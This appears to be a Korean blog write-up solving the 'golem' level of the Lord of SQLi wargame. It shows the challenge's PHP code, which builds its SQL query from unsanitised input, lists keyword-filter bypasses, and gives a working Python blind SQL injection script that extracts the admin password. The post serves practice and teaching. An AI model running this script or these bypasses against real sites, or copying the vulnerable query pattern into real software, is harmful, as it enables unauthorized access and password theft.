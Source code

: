 ```yaml
---
layout: post
title: ! "[LOS] golem"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - golem
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/golem.png)

`query : select id from prob_golem where id='guest' and pw=''`

```?php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

golem 문제는 or, and, substr, = 등등 여러가지가 필터링된다.
```
or -> ||

and -> &&(%26%26)

substr -> substring

= -> like
```

위와 같이 우회해주면 된다.

orge 문제를 풀 때 썼던 코드가 왜인지 안먹혀서...다른 분의 코드를 참고해서 다시 작성하였다.

```py
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "https://los.eagle-jump.org/golem_~~~.php"
session = dict(PHPSESSID = "자신의 세션 아이디")

for i in range(0, 20):
        query = url + "?pw=1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
        r = requests.post(query, cookies=session)

        if 'Hello admin' in r.text:
                length = i
                break

print "password length is ",length

for j in range(1, length + 1):
        for i in range(48, 128):
                query = url + "?pw=1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
                r = requests.post(query, cookies=session)

                if 'Hello admin' in r.text:
                        flag += chr(i)
                        break

print "password is",flag
```

실행 결과는 다음과 같다.
![]({{ site.baseurl }}/assets/posts/los/golem_password.png)
password의 길이는 8, password는 88e3137f

이 값을 `?pw=88e3137f` 이렇게 넘겨주면 풀린다.

![]({{ site.baseurl }}/assets/posts/los/golem_clear.png)
 
